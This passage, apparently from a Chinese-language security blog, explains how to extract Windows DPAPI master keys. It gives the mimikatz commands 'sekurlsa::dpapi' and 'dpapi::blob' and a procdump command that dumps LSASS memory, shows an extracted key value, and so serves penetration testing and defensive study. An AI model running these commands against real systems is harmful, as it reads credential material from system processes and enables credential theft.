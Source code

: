 获得对应guidMasterkey为`{a111b0f6-b4d7-40c8-b536-672a8288b958}`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-14/2-1.png)

即Master Key file的路径为`%APPDATA%\Microsoft\Protect\%SID%\a111b0f6-b4d7-40c8-b536-672a8288b958`


### 3、从lsass进程提取出Master Key

#### (1) 在线方式

需要管理员权限

mimikatz:

```
privilege::debug
sekurlsa::dpapi
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-14/2-2.png)

提取出Master Key为`666638cbaea3b7cf1dc55688f939e50ea1002cded954a1d17d5fe0fbc90b7dd34677ac148af1f32caf828fdf7234bafbe14b39791b3d7e587176576d39c3fa70`

#### (2) 离线方式

使用procdump dump出LSASS进程内存

procdump下载地址：

https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

管理员权限：

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

使用mimikatz加载dmp文件：

```
sekurlsa::minidump lsass.dmp
sekurlsa::dpapi
```

**注：**

mimikatz从lsass进程提取出Master Key后，会自动将Master Key加入系统缓存

### 4、使用masterkey解密

mimikatz:

```
dpapi::blob /in:test.txt
```
